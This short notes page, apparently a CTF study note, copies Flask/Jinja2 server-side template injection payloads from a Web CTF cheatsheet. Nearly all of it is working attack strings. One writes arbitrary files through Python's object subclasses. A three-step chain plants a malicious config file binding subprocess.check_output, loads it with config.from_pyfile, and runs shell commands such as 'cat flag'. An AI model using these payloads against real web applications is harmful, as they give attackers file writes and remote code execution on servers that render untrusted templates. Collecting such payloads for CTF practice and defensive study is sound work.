 * Write File
`{{''.__class__.__mro__[2].__subclasses__()[40]('/var/www/app/a.txt', 'w').write('Kaibro Yo!')}}`

* RCE
`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}`
    * evil config
`{{ config.from_pyfile('/tmp/evilconfig.cfg') }}`
    * load config
`{{ config['RUNCMD']('cat flag',shell=True) }}`

[WEB CTF CheatSheet](https://github.com/w181496/Web-CTF-Cheatsheet#flaskjinja2)
:::info
:pushpin: **TODO**
- [ ] 補充進階注入方式
:::
